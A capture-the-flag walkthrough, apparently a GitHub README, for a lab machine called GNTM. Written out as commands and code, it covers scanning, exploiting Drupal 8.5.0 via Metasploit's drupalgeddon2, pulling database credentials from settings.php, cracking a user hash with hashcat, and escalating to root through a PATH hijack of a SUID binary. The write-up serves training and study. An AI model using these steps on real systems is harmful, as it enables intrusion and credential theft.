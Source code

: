 # GNTM
&nbsp;

## Initial Foothold

We run nmap.
```
$ nmap -A -v 172.30.0.0/24
```

Nmap discovered port **80** and port **22** on host **172.30.0.2**. If we open up a web browser and hit the IP we get the Apache default web page. Lets search for directories.
```
$ dirb http://172.30.0.2
```

From **dirb** we got **fashion** directory. So if we hit **http://172.30.0.2/fashion** we get a web site. The web site is developed with drupal. Next step, we scan the drupal web site with **droopscan** to find out the version.
```
$ git clone https://github.com/droope/droopescan.git
$ cd droopescan
$ ./droopescan scan -u 172.30.0.2/fashion
```

The version of the drupal is 8.5.0. After a little searching we came up with a critical vulnerability in this specific version of drupal. Metasploit framework will do the work for as.
```
$ msfconsol
$ use unix/webapp/drupal_drupalgeddon2
$ set RHOST 172.30.0.2
$ set TARGETURI fashion
$ shell
```

Now we have a basic shell and we are logged in as www-data. Searching the structure of drupal, we can see that the administrator didn't delete the **settings.php** file after the installation.
```
$ cat sites/default/settings.php
```

This file contains the credentials about the databases. Username: **admin** and password **mitroglou**. We can't get an interactive connection with mysql, so we are going to execute one command at a time and after some time we will get to that.
```
$ mysql -u admin -p -e 'use drupal; select * from users_field_data;'
```

User kazarian has a hashed password. Lets see if it is crackable. Put the hash in a file (main is called hash), find the hash type and run hashcat.
```
$ hashcat --help | grep Drupal
    7900 | Drupal7                                          | Forums, CMS, E-Commerce, Frameworks
$ sudo hashcat -m 7900 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt --force
    emmawatson
```

The password is **"emmawatson"**. Back to nmap results, port 22 is open. Lets try ssh on user kazarian.
```
$ ssh kazarian@172.30.0.2
$ cat user.txt
```

And we got the user.

&nbsp;
## Privilege Escalation

Enumerating the system.
```
$ find / -perm -4000 -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 756072 Sep  8 22:39 /usr/local/bin/check
```

There is a program called **check**. As we can see, special permission has been set on this file and we can execute with root privilages. Lets see what the program does.
```
$ check 
00069f1bbf0c23d21578050924cdf148cf91e6dee20e18bec329e8180a1aa24e
00053462a9e83977be9f54b2aa48243b8101a23f1f025b73b01fdd1582ce426a
000afba64da39251c788bbe81e9531e040116840c0c13d7aeb2e3920eaa00cea
```

It prints some hashes, nothing helpful. Copy the program locally for further examination.
```
$ scp kazarian@172.30.0.2:/usr/local/bin/check .
$ ./check
Try harder!!!
```

Commands like **"strings"**, **"ltrace"** and **"nm"** wont help because the the program is statically linked and the output is huge.

We will reverse the file to see the flow of the code.
```
$ radare2 ./check
$ aaaa
$ afll
$ pdf@main
lea rdi, qword str.tail__n_50__root_list.txt ; 0x47d024 ; "tail -n 50 /root/list.txt"
call sym.system
```

There is a system call in which the program run the command **"tail -n 50 /root/list.txt"**. It is well known that the system calls without the full path specified are vulnerable. Here is the way to exploit this vulnerability. First write a program in **C** with the name **tail**, in which a bash will be spawned.
```
#include <stdio.h>      /* printf */
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */
#include <unistd.h>
#include <sys/types.h>

int main ()
{
    system ("/bin/bash -i");
    return 0;
}
```

The go on and compile it and send it to the remote server.
```
$ gcc tail.c -o tail
$ chmod +x tail
$ scp tail kazarian@172.30.0.2:/tmp/tail
```

Then add your current path at the beginning of **$PATH** and run **check** again.
```
$ echo $PATH
$ PATH=$PWD:$PATH
$ check
```

This time **check** will look at your current path first and will execute your **tail** program and once **SUID** is set, it's going to executed as root.
```
$ cat /root/root.txt
```

And we got root!!!
